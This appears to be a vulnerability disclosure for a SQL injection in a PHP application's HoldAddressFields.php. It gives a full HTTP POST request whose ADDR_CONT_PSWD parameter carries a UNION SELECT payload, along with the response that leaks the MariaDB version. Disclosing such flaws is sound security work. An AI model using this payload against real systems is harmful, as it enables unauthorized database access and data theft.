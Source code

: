 # ![#f03c15](https://via.placeholder.com/15/f03c15/000000?text=+) Description

Because of lacking of sanitizer of input data, attacker can injection malicious sql into query by control parameters such as `ADDR_CONT_USRN`, `ADDR_CONT_PSWD` or `SECN_CONT_USRN`, `SECN_CONT_PSWD` in file `HoldAddressFields.php`.


### ![#c5f015](https://via.placeholder.com/15/c5f015/000000?text=+) Request

```
POST /HoldAddressFields.php HTTP/1.1
Host: 172.16.0.12:2222
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: vi,vi-VN;q=0.9,fr;q=0.8,en-US;q=0.7,en;q=0.6,sm;q=0.5,la;q=0.4,zh-CN;q=0.3,zh-TW;q=0.2,zh;q=0.1
Cookie: cywg_2132_saltkey=E2w57uH2; cywg_2132_lastvisit=1630101103; cywg_2132_ulastactivity=6590uIjzBHML3smc7veG8yziPxJyaiN4jgoE9aN3L3FvOCr3Ov1_; ORRL_2132_saltkey=SSddxNX7; ORRL_2132_lastvisit=1630117184; ORRL_2132_ulastactivity=4e4933KaEc2d5jrijCQZlYd-PcZ8j470p8v4gqPXPHDs6JlJdGR4; ORRL_2132_forum_lastvisit=D_1_1630131788D_index_1630131832; PHPSESSID=i3j7fp3hcjbmot1d60daol514a
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

ADDR_CONT_USRN=123&ADDR_CONT_PSWD="+union+select+1,2,3,4,version(),6,7,8,9--+-
```

### ![#1589F0](https://via.placeholder.com/15/1589F0/000000?text=+) Response

```
HTTP/1.1 200 OK
Date: Wed, 01 Sep 2021 12:38:58 GMT
Server: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/7.4.21
X-Powered-By: PHP/7.4.21
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 1372
Connection: close
Content-Type: text/html; charset=UTF-8





Array
(
    [ADDR_PRIM_L1] => 
    [ADDR_PRIM_L2] => 
    [ADDR_PRIM_CITY] => 
    [ADDR_PRIM_STATE] => 
    [ADDR_PRIM_ZIP] => 
    [ADDR_PRIM_BUSNO] => 
    [ADDR_PRIM_BPU] => 
    [ADDR_PRIM_BDO] => 
    [ADDR_SAME_HOME] => 
    [ADDR_SAME_AS] => 
    [ADDR_MAIL_L1] => 
    [ADDR_MAIL_L2] => 
    [ADDR_MAIL_CITY] => 
    [ADDR_MAIL_STATE] => 
    [ADDR_MAIL_ZIP] => 
    [ADDR_CONT_RSHIP] => 
    [ADDR_CONT_FIRST] => 
    [ADDR_CONT_LAST] => 
    [ADDR_CONT_HOME] => 
    [ADDR_CONT_WORK] => 
    [ADDR_CONT_CELL] => 
    [ADDR_CONT_MAIL] => 
    [ADDR_CONT_CUSTODY] => 
    [ADDR_CONT_PORTAL] => 
    [ADDR_CONT_USRN] => 123
    [ADDR_CONT_PSWD] => 10.4.20-MariaDB
    [ADDR_CONT_SAHA] => 
    [ADDR_CONT_ADNA] => 
    [ADDR_CONT_LIN1] => 
    [ADDR_CONT_LIN2] => 
    [ADDR_CONT_CITY] => 
    [ADDR_CONT_STAT] => 
    [ADDR_CONT_ZIP] => 
    [CHK_HOME_ADDR_PRIM] => 
    [SECN_CONT_RSHIP] => 
    [SECN_CONT_FIRST] => 
    [SECN_CONT_LAST] => 
    [SECN_CONT_HOME] => 
    [SECN_CONT_WORK] => 
    [SECN_CONT_CELL] => 
    [SECN_CONT_MAIL] => 
    [SECN_CONT_CUSTODY] => 
    [SECN_CONT_PORTAL] => 
    [SECN_CONT_USRN] => 
    [SECN_CONT_PSWD] => 
    [SECN_CONT_LIN1] => 
    [SECN_CONT_LIN2] => 
    [SECN_CONT_CITY] => 
    [SECN_CONT_STAT] => 
    [SECN_CONT_ZIP] => 
    [CHK_HOME_ADDR_SECN] => 
    [SELECTED_PRIMARY] => 
    [SELECTED_SECONDARY] => 
)


```


### ![#1589F0](https://via.placeholder.com/15/008080/000000?text=+) PoC

![poc](https://user-images.githubusercontent.com/17811861/131673842-3ed048a9-e433-4ebb-806b-52a8f773ec67.png)
